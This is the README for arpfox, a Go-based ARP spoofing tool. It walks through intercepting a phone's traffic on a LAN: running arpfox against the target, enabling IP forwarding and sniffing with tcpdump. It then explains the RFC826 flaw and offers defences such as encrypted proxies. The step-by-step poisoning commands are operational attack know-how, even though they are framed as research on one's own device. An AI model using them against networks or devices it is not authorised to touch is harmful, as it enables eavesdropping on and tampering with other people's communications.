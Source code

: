 # arpfox

`arpfox` is an [arpspoof](http://linux.die.net/man/8/arpspoof) clone written in
Go which creates and injects special [ARP
packets](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)
that can be used to poison
[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) cache tables.

A security researcher can run `arpfox` against any machine on the LAN to pose
as any other host, this is an ancient technique known as [ARP
spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) and is commonly used to
eavesdrop communications on a LAN.

The machine that receives traffic can record, censor, alter or selectively drop
network packets that pass through it.

## Building

Requisites:

```
sudo dnf install -y libpcap-devel
```

```
go get github.com/xiam/arpfox
arpfox -h
```

## Running

Depending on your OS, you may require root privileges to run this command:

```
arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
2016/09/05 20:06:12 wlan0: You don't have permission to capture on that device ((cannot open device) /dev/bpf: Permission denied)

sudo arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
...
```

## Target Specification

`arpfox` takes targets in the same format as `nmap`. The following are all valid target specifications:

* `10.0.0.1`
* `10.0.0.0/24`
* `10.0.0.*`
* `10.0.0.1-10`
* `10.0.0.1, 10.0.0.5-10, 192.168.1.*, 192.168.10.0/24`

## A practical example

Alice is a security researcher, and she's going to redirect and watch traffic
coming from her own phone on her machine in order in order to test if the phone
and if a local network are susceptible to ARP spoofing.

Alice's machine is already on the same LAN as the phone, and she knows the IP
addresses of both the phone and of the router.

```
Router: 10.0.0.1
Phone: 10.0.0.101
```

Alice will attempt to make her machine pose as the router in order for the
phone to send all traffic to it.

If she succeeds, the phone will start sending traffic marked for `10.0.0.1` to
Alice's machine, which will just ignore the packets because these packets have
a different destination. In order to instruct the machine to forward the
packets to the legitimate destination instrad of dropping them, Alice does
something like:

```
# OSX
sudo sysctl net.inet.ip.forwarding=1

# FreeBSD
sudo sysctl -w net.inet.ip.forwarding=1

# Linux
sudo sysctl -w net.ipv4.ip_forward=1
```

And besides forwarding, Alice also wants to see what's going on with
unencrypted traffic, so she instructs `tcpdump` to display packets coming from
the phone:

```
tcpdump -i en0 -A -n "src host 10.0.0.101 and (dst port 80 or dst port 443)"
```

At this point, the phone's ARP table looks like this:

```
# 10.0.0.1's legitimate MAC address on the phone.
? (10.0.0.1) at 11:22:33:44:55:66 on wlan0 expires in 857 seconds [ethernet]
```

and she's prepared to use `arpfox`:

```
# arpfox -i [network interface] -t [target] [host]
arpfox -i en0 -t 10.0.0.101 10.0.0.1
```

`-t 10.0.0.101 10.0.0.1` tells `arpfox` to send unsolicited ARP replies to the
phone (`10.0.0.101`) posing as the router (`10.0.0.1`).

After a few seconds, the phone's ARP table gets altered and the phone now
thinks Alice's machine is the router:

```
# 10.0.0.1's MAC address was changed on the phone.
? (10.0.0.1) at 11:22:de:ad:be:ef on wlan0 expires in 1193 seconds [ethernet]
```

Finally, she takes the phone and goes to `example.com`, `tcpdump` starts
showing traffic:

```
...
GET / HTTP/1.1
Host: example.org
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1 (KHTML, like Gecko) CriOS/52.0.2743.84 Mobile/13G36 Safari/601.1.46
Accept-Language: en-us
Cache-Control: max-age=0
Connection: keep-alive
...
```

## Why does this happen?

[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) is the
protocol most computer use to translate a [MAC
address](https://en.wikipedia.org/wiki/MAC_address) into an [IP address
](https://en.wikipedia.org/wiki/IP_address). The original proposal is described
in [RFC826](https://tools.ietf.org/html/rfc826).

The part that is flawed is described in the "Packet Reception" section:

> Notice that the <protocol type, sender protocol address, sender
> hardware address> triplet is merged into the table before the
> opcode is looked at.  This is on the assumption that communcation
> is bidirectional; if A has some reason to talk to B, then B will
> probably have some reason to talk to A.  Notice also that if an
> entry already exists for the <protocol type, sender protocol
> address> pair, then the new hardware address supersedes the old
> one.  Related Issues gives some motivation for this.

The opcode they're talking about is what tells if the packet is a request or a
reply, nothing verifies that a reply is associated with a request nor that a
request was made in the first place.

It only takes an unsolicited ARP packet of type reply to make a device change
it's ARP table, this includes adding new addreses and replacing old ones.

## How can I protect against this?

There are [some programs](https://en.wikipedia.org/wiki/ARP_spoofing#Defense)
that can help you against ARP spoofing. Sometimes programs like these may be
inconvenient because we usually roam over different networks all the time and
these programs require usto hack stuff before actually starting being
productive. Keeping an static ARP table is simply not practical enough for most
users.

One thing you can do, though, is assuming things like these could happen and
try to encrypt your communications, specially on untrusted networks where any
node, even the router, can be actively recording traffic without your consent.
While this doesn't prevent attackers from keeping records on your
communications, it does prevent them from knowing the actual contents of it.

You don't have to use a VPN to stay secure, you can build a proxy with SSH and
configure your programs to use it:

```
ssh -D 9999 user@myownserver.org
```

A more advanced example could be found
[here](https://www.digitalocean.com/community/tutorials/how-to-route-web-traffic-securely-without-a-vpn-using-a-socks-tunnel).
